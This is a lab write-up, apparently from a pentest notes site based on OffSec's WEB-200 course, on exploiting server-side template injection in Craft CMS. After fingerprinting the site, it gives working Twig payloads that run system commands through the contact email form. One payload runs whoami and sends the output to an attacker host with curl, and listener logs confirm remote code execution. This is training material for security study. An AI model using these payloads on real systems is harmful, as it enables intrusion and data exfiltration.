 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Case Study: Craft CMS

> _The example below is based on OffSec's_ [_WEB-200_](https://www.offsec.com/courses/web-200/) _course._

The source code of the web application contains some clues. More specifically, it discloses that the **Craft CMS** is used and the use of `[]` in the `name` attribute of the `input` field indicates the usage of the **PHP** programming language (Figure 1).

<figure><img src="../../../../.gitbook/assets/web_ssti_craft_1.png" alt=""><figcaption><p>Figure 1: Inspecting the source code of the homepage.</p></figcaption></figure>

Performing a dirbusting with [`ffuf`](../../../../tools/web/dirbusting/fuff.md) , we find that there is an `/admin` directory which further confirms that we are using the Craft CMS (Figure 2).

{% code overflow="wrap" %}
```bash
$ ffuf -u 'http://craft/FUZZ' -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -c -ic -ac
<SNIP>

index          [Status: 200, Size: 56254, Words: 12711, Lines: 740, Duration: 2847ms]
admin          [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 3572ms]
logout         [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 3448ms]
```
{% endcode %}

<figure><img src="../../../../.gitbook/assets/web_ssti_craft_2.png" alt=""><figcaption><p>Figure 2: The <code>/admin</code> directory validates the usage of the Craft CMS.</p></figcaption></figure>

The home page of the web application provides a way to send an email to the site's administrator. **Emails are great targets for SSTI** as they consist of mainly generic elements which are then tailored to the user using a templating engine. Searching for "[_Craft CMS templating engine_](https://www.google.com/search?client=firefox-b-e\&q=craft+cms+templating+engine)" reveals that [Twig](twig.md) is used (Figure 3).

<figure><img src="../../../../.gitbook/assets/web_ssti_craft_3.png" alt=""><figcaption><p>Figure 3: Enumerating Craft's templating engine.</p></figcaption></figure>

We can send an email containing a Twig-specific payload to form an out-of-band communication.

```twig
{{[0]|reduce('system','curl http://192.168.45.155:7331/hello')}}
```

When we send the email the payload is executed and we receive a response back.

{% code overflow="wrap" %}
```bash
$ python3 -m http.server 7331
Serving HTTP on 0.0.0.0 port 7331 (http://0.0.0.0:7331/) ...
192.168.152.105 - - [15/Aug/2024 17:01:27] code 404, message File not found
192.168.152.105 - - [15/Aug/2024 17:01:27] "GET /hello HTTP/1.1" 404 -
```
{% endcode %}

To exfiltrate data in Twig, we use the [tilde character](https://twig.symfony.com/doc/3.x/templates.html#other-operators) (`~`) for string concatenation, which allows us to append the exfiltrated data to a `GET` request and the [`set`](https://twig.symfony.com/doc/3.x/tags/set.html) tag to declare variables. Additionally, we apply the [`url_encode`](https://twig.symfony.com/doc/3.x/filters/url\_encode.html) method method to the `exfil` variable to ensure our payload is properly URL-encoded.

```bash
{% raw %}
{% set output %}
{{[0]|reduce('system','whoami')}}
{% endset %}}

{% set exfil = output| url_encode %}
{% endraw %}
{{[0]|reduce('system','curl http://192.168.45.155:7331/?exfil=' ~ exfil)}}
```

In the response, we confirm that we have achieved RCE.

{% code overflow="wrap" %}
```bash
$ python3 -m http.server 7331
Serving HTTP on 0.0.0.0 port 7331 (http://0.0.0.0:7331/) ...
192.168.152.105 - - [15/Aug/2024 17:45:00] "GET /?exfil=%3Cbr%20%2F%3E%0Awww-data%0Awww-data%3Cbr%20%2F%3E%0A HTTP/1.1" 200 -

# URL-decoding the exfiltrated data
$ echo "%3Cbr%20%2F%3E%0Awww-data%0Awww-data%3Cbr%20%2F%3E%0A" | python3 -c 'import sys;from urllib.parse import unquote;print(unquote(sys.stdin.read()));'
<br />
www-data
www-data<br />
```
{% endcode %}
